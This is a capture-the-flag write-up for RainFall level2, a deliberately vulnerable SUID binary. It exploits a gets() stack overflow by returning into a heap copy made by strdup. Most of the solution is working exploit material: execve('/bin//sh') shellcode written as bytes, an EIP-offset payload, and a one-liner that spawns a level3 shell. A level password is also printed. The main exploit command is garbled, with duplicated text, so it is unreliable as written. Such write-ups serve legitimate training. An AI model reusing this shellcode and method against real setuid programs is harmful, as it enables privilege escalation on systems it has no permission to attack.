 # Level 2

## Vulnerability

Stack overflow

## Context

We find a binary with owner ```level3``` and SUID.
```
level2@RainFall:~$ ls -l
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```
Running the binary, it seems to read from stdin, and print what is given.
```
level2@RainFall:~$ ./level2
oh hi
oh hi
```

## Solution

After a certain length of input it segfaults.
```
level2@RainFall:~$ ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaa
Segmentation fault (core dumped)
```
When we inspect with gdb we find main calls function ```p```. Function ```p``` includes a call to ```gets()``` which is vulnerable to buffer overflow.
```
level2@RainFall:~$ gdb -q level2
...
(gdb) disas main
...
   0x08048545 <+6>:	call   0x80484d4 <p>
...
(gdb) disas p
...
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
...
```

### Find EIP offset

Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 80.
```
level2@RainFall:~$ gdb -q level2
...
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
This means we can write our malicious code in the stdin, followed by garbage until the buffer overflows and we reach 80 characters, where the return address can be overwritten.

### Find target address

However, this buffer is stored on the stack, unfortunately function ```p``` checks to make sure the return address isn't in the stack.
```
(gdb) disas p
...
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
...
```
This prevents us from overwriting the return address with and address in the stack, or an environment variable.

However, we could use the heap. ltrace shows the buffer is later copied with strdup. strdup uses malloc which uses the heap.
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7a4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                          = 0
gets(0xbffff6ac, 0, 0, 0xb7e5ec73, 0x80482b5 oh hi!
)               = 0xbffff6ac
puts(" oh hi!" oh hi!
)                                             = 8
strdup(" oh hi!")                                           = 0x0804a008
+++ exited (status 8) +++
```
ltrace also shows us strdup always uses the address ```0x804a008```, this indicates no ASLR (Address Space Layout Randomization).

So let's try to write our malicious shellcode in the heap by writing it in the input prompt. Then write the strdup malloc address on the return address.

### Build malicious code

We can use syscall ```execve()``` to open a shell. Searching for unix syscalls in ```/usr/include/i386-linux-gnu/asm/unistd_32.h``` we find ```execve()``` is syscall 11.
```
level2@RainFall:~$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep "execve"
#define __NR_execve		 11
```
Let's create the assembly code to open a shell, and break it down into bytecode.
```
+----------------+-----------------------+-----------------------+----------------------------------------------+
| Bytecode       | (Intermediate)        | Assembly              | Comments                                     |
+----------------+-----------------------+-----------------------+----------------------------------------------+
| 31 d2          | xor    edx,edx        | xor   edx, edx        | execve 3rd parameter = envp, NULL            |
| 31 c9          | xor    ecx,ecx        | xor   ecx, ecx        | execve 2nd parameter = argv, NULL            |
| 51             | push   ecx            | push  ecx             |                                              |
| 68 2f 2f 73 68 | push   0x68732f2f     | push  '//sh'          | after 3rd push instruction, stack contains:  |
| 68 2f 62 69 6e | push   0x6e69622f     | push  '/bin'          | db '/bin//sh',0,0,0,0                        |
| 31 c0          | xor    eax,eax        | xor   eax, eax        |                                              |
| b0 0b          | mov    al,0xb         | mov   al, 11          | execve syscall                               |
| 89 e3          | mov    ebx,esp        | mov   ebx, esp        | execve 1st parameter = executable (on stack) |
| 83 e4 f0       | and    esp,0xfffffff0 | and   esp, 0xfffffff0 | align stack                                  |
| cd 80          | int    0x80           | int   0x80            | syscall                                      |
+----------------+-----------------------+-----------------------+----------------------------------------------+
```

Lets create our malicious code string, sdding backslash \x to write as bytes.
```
\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80
```

### Build exploit string

Lets create our exploit string:
1. Our malicious bytecode (26 bytes) - ```\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80```
2. Buffer until EIP offset at 80 bytes - ```"A" * 54```
3. Address of our malicious code, copied by strdup() to the heap - ```\x08\xa0\x04\x08```

Pipe the exploit string into ./level2 stdin. This opens a shell as user ```level3```, where we can cat the level3 password.
```
level2@RainFall:~$ (python -c 'print level2@RainFall:~$ (python -c 'print "\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80" + "A" * 54 + "\x08\xa0\x04\x08"' ; cat -) | ./level2
...
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Recreate Exploited Binary

As user ```level3```, in /tmp/ create and compile ```level2_source.c```
```
level3@RainFall:/tmp$ gcc level2_source.c -fno-stack-protector -z execstack -o level2_source
```
Edit permissions including suid, then move the binary to home directory.
```
level3@RainFall:/tmp$ chmod u+s level2_source; chmod +wx ~; mv level2_source ~
```
Exit back to user level2, then run the binary.
```
level3@RainFall:/tmp$ exit
exit
level2@RainFall:~$ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xb0\x04\x08"' ; cat -) | /home/user/level3/level2_source
...
whoami
level3
```
